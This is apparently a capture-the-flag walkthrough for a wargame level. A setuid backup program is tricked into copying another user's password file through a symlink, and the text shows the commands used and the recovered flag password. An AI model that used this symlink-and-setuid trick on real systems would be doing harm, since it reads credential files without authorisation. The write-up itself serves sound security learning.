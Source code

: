 In this level we have a simple program that copies the contents of the filename given in argument and put them in the backups/ folder.
Since the program has the setuid bit set it will execute with level09 permissions, so it shouldn't fail while opening it or reading, let's try that:

~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

the opening and reading of .pass seems to be working but there is a problem in writing the backup file because the program writes to "backups/" + filename hence the double slashes, meaning any file outside our home folder will not work.

We can work around that by creating a symlink to the .pass file to place in our home dir:

ln -s /home/users/level09/.pass pass
./level08 pass
cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S